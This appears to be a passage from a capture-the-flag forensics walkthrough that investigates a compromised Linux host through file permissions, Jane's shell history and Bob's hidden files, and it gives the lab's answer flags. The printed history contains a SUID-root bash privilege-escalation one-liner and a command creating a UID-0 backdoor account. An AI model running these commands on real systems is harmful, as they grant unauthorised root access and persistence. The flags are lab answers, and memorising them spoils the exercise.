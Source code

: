 <pre><code>investigator@ip-10-10-226-120:~$ stat /home/jane/.ssh/authorized_keys 
  File: /home/jane/.ssh/authorized_keys
  Size: 1136      Blocks: 8          IO Block: 4096   regular file
Device: ca01h/51713dInode: 257561      Links: 1
Access: (0666/-rw-rw-rw-)  Uid: ( 1002/    jane)   Gid: ( 1002/    jane)
Access: 2024-11-08 23:42:25.784000000 +0000
Modify: 2024-02-13 00:34:16.005897449 +0000
Change: 2024-02-13 00:34:16.005897449 +0000
 Birth: -
</code></pre>

<br>
<p>If we look back to the output of the <code>ls -al</code> command, we can identify the permission misconfiguration that made this possible:</p>

<pre><code>investigator@ip-10-10-226-120:~$ ls -al /home/jane/.ssh/authorized_keys 
-rw-rw-rw- 1 jane jane 1136 Feb 13  2024 /home/jane/.ssh/authorized_keys
</code></pre>

<p>As identified by the third <code>rw</code>permissions, this file is world-writable, which should never be the case for sensitive files. Consequently, by exploiting this misconfiguration, the attacker gained unauthorised SSH access to the system as if they were Jane.</p>

<h3 align="left"> $$\textcolor{#f00c17}{\textnormal{Answer the questions below}}$$ </h3>
<br>


> 5.1. <em>View Jane's <code>.bash_history</code> file. What flag do you see in the output?</em><br><a id='5.1'></a>
>> <code><strong>THM{f38279ab9c6af1215815e5f7bbad891b}</strong></code>

<pre><code>investigator@ip-10-10-226-120:/home/jane$ sudo cat .bash_history
[sudo] password for investigator: 
whoami
groups
cd ~
ls -al
find / -perm -u=s -type f 2>/dev/null
/usr/bin/python3.8 -c 'import os; os.execl("/bin/sh", "sh", "-p", "-c", "cp /bin/bash /var/tmp/bash && chown root:root /var/tmp/bash &
& chmod +s /var/tmp/bash")'
ls -al /var/tmp
exit
useradd -o -u 0 b4ckd00r3d
exit
THM{f38279ab9c6af1215815e5f7bbad891b}
investigator@ip-10-10-226-120:/home/jane$ 
</code></pre>

<br>

> 5.2. <em>What is the hidden flag in Bob's home directory?</em><br><a id='5.2'></a>
>> <code><strong>THM{f38279ab9c6af1215815e5f7bbad891b}</strong></code>

<pre><code>investigator@ip-10-10-226-120:/home/bob$ ls -la
total 36
drwxr-xr-x 4 bob  bob  4096 Feb 12  2024 .
drwxr-xr-x 6 root root 4096 Feb 12  2024 ..
-rw-r--r-- 1 bob  bob   220 Feb 12  2024 .bash_logout
-rw-r--r-- 1 bob  bob  3771 Feb 12  2024 .bashrc
drwx------ 2 bob  bob  4096 Feb 12  2024 .cache
...
-rw-rw-r-- 1 bob  bob    38 Feb 12  2024 .hidden34
-rw-rw-r-- 1 bob  bob     0 Feb 12  2024 .hidden35
-rw-rw-r-- 1 bob  bob     0 Feb 12  2024 .hidden36
-rw-rw-r-- 1 bob  bob     0 Feb 12  2024 .hidden37
...
-rw-rw-r-- 1 bob  bob     0 Feb 12  2024 .hidden7